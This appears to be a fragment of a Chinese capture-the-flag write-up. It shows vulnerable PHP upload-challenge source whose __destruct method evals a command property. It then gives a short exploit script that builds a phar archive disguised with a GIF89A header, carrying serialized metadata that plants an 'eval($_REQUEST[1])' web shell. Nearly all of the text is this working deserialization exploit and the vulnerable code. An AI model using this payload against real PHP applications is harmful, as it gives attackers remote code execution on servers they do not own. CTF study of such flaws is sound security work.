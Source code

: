 ```php

	function __toString(){
		global $sandbox;
		global $ext;
		// return $sandbox.$this->Filename.$ext;
		return $this->Filename;
	}

	function __destruct(){
		if($this->token != $_SESSION['user']){
			$this->cmd = "die('check token falied!');";
		}
		eval($this->cmd);
	}
}

if(isset($_FILES['file'])) {
	$uploader = new Uploader();
	$uploader->upload($_FILES["file"]);
	if(@file_get_contents($uploader)){
		echo "下面是你上传的文件：<br>".$uploader."<br>";
		echo file_get_contents($uploader);
	}
}

?>
```

简单反序列化, payload 如下

```php
<?php

class Uploader{
    public $Filename;
    public $cmd;
    public $token;
}

$a = new Uploader();
$a->cmd='eval($_REQUEST[1]);phpinfo();';
$a->token = 0;

$phar =new Phar("phar.phar"); 
$phar->startBuffering();
$phar->setStub("GIF89A<?php XXX __HALT_COMPILER(); ?>");
$phar->setMetadata($a);
$phar->addFromString("test.txt", "test");
$phar->stopBuffering();
?>
```
